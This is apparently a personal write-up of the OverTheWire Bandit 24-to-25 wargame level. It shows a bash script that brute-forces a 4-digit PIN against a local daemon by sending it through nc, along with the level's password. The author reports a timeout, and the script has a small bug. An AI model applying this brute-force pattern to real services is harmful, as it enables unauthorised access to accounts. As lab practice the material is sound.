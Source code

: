 # bandit 24 to 25

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

---

### solve

> This time, I have to make a shell script connecting and sending a message.
>
> I make a shell script like this.
>
> ```bash
> #!/bin/bash
> 
> for i in {0000..9999}
> do
> 		echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ${i}" >> text
> done
> 
> cat text | nc localhost 30002 >> tt
> 
> echo sort tt | uniq -u
> ```
>
> but it responds sending "Timeout. Exiting". 
>
> I don't know why and I found some write-up ,but they did like me.